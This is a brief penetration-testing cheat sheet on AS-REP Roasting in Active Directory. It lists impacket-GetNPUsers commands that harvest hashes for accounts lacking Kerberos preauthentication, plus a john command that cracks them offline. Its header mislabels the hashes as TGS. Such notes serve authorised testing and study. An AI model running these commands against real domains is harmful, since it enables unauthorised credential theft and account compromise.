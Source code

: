 ```yaml
---
label: AS-Rep Roasting
disabled: true
---
```


# AS-Rep Roasting

Linux:

> **NOTE**: `users.txt` includes usernames to be checked (one username per line).

```bash
# Enumerate ASReproastable users (without credentials)
impacket-GetNPUsers -usersfile users.txt -dc-ip $ip $domain/

# Enumerate ASReproastable users (with credentials)
impacket-GetNPUsers -usersfile users.txt -dc-ip $ip $domain/$user:$pass
```

## Crack TGS offline

```bash
john --format=krb5asrep --wordlist=$wordlist $asrep_file
```
